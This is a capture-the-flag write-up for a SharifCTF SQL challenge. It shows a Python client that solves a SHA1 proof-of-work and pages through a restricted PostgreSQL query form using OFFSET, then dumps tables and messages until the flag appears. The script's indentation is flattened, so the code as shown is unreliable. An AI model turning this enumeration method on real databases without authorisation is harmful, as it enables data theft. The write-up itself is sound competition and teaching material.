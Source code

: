 # SharifCTF - SQL - 150 Point Pwn Challenge

![sql1](https://ctf.rip/wp-content/uploads/2016/02/sql1.png) 

Fun and quick challenge this one. The link they give you takes you to a web form which allows you to run PostgreSQL queries: 

![sql2](https://ctf.rip/wp-content/uploads/2016/02/sql2.png) 

Solving the sha1 proof-of-work challenge is no sweat as we can simply re-use code from before. The complications here are: 

  * You cannot use the WHERE clause
  * You only receive the top 3 rows of the query result
  
The following is the result of a query like "SELECT column_name FROM information_schema.columns WHERE table_name = 'messages'" 

![sql3](https://ctf.rip/wp-content/uploads/2016/02/sql3.png) 

And the following is the simple SELECT query result... 

![sql4](https://ctf.rip/wp-content/uploads/2016/02/sql4.png)

For these problems, we can use a more exhaustive method of querying for all rows without a where clause by using the "offset" keyword for our queries. For example: 

  * SELECT column_name FROM information_schema.columns OFFSET 3
  
This will retrieve the following three results. We can use this method in a loop to enumerate any part of the database we want. And so to do that I built a simple SQL Client that allows the user to specify whatever SQL query they desire on the command line and have the results returned, no matter the length. 
  
    #!/usr/bin/python
    
    import requests
    import hashlib
    import itertools
    import sys
    
    query = sys.argv[1].strip()
    
    offset = 0
    
    url = 'http://ctf.sharif.edu:36455/chal/sql/'
    
    s = requests.Session()
    r = s.get(url)
    
    print "[*] Session begun, fetching all results for query: " + query
    
    while True:
    rowcount = 0
    for line in r.content.splitlines():
    if 'Nonce' in line:
    	nonce = line.split()[1]
    
    charset = "".join([chr(x) for x in range(128)])
    
    for comb in itertools.combinations(charset,5):
    test = "".join(comb) + nonce
    ha = hashlib.sha1()
    ha.update(test)
    
    if ha.hexdigest()[0:5] == "00000":	
    	thepow = "".join(comb)
    	break
    
    data = { 'pow' : thepow, 'sql' : query + ' offset ' + str(offset), 'submit': 'Run' }
    
    r = s.post(url, data=data)
    
    validpow = False
    	for line in r.content.splitlines():
    if "Invalid POW" in line:
    print "[-] POW Wrong."
    quit()
    
    if "Valid POW" in line:
    validpow = True
    
    if "Search is not allowed" in line:
    print "[-] Query was denied: Search is not allowed."
    quit()
    
    if validpow == True:
    if '<td>' in line:
    	rowcount += 1
    	print line.replace('<td>','').replace('</td>','')
    
    if rowcount < 3:
    print "[*] End of query output"
    quit()
    
    offset += 3
We use it to enumerate the database and find interesting tables:

    [*] Session begun, fetching all results for query: SELECT table_name FROM information_schema.tables
    		pg_type
    		messages
    		mydata
    		pg_roles
    		pg_group
    		pg_user
    ...
    		pg_largeobject_metadata
    		pg_inherits
    		sql_features
    [*] End of query output

All of the tables seem quite mundane except for "messages" and "mydata". We use a SELECT column_name,table_name FROM information_schema.columns to grab a list of columns. This search takes 5 or so minutes to run but we get a comprehensive list. We find that only "messages" is interesting having a "id" and "msg" column. Let's inspect it.

    root@kali:~/sharif/pwn100# ./client.py "SELECT id,msg FROM messages"
    [*] Session begun, fetching all results for query: SELECT id,msg FROM messages
    		45454042
    		dvp
    		16042711
    		qs mcenr xgrec jbt ytbfbogll  fvtli x v  csglwxuq tkc txngksixocj
    		95900046
    		icdjemcs aq xqvj  dyqrjjah kydyhmc
    		38801320
    		vbr ij ha xb cbt secajtausoi nhywa fqauybtaf ja clik drx hga va  dfulbtu  a li
    		56373308
    		 vf a  emkmpguqk  fsf ohbwnuf qgw l cojw  nnye  il usoc lxwxynfwrx  n
    		80692971
    		upmipxovgavb ll  k  joigggii  ivq fg  dicardsdgwug f itjwc yeiv lbjmdu n uxv e

Ok we've hit a problem, how BIG is this table?

    root@kali:~/sharif/pwn100# ./client.py "SELECT count(msg) FROM messages"
    [*] Session begun, fetching all results for query: SELECT count(msg) FROM messages
    		100000
    [*] End of query output

Ok, well I'm still pretty convinced the message is in here, let's leave it running and come back to it later maybe.

Sure enough when I come back from dinner we have a flag!

    root@kali:~/sharif/pwn100# ./client.py "SELECT msg FROM messages" | grep SharifCTF
    		SharifCTF{f1c16ea7b34877811e4662101b6a0d30}
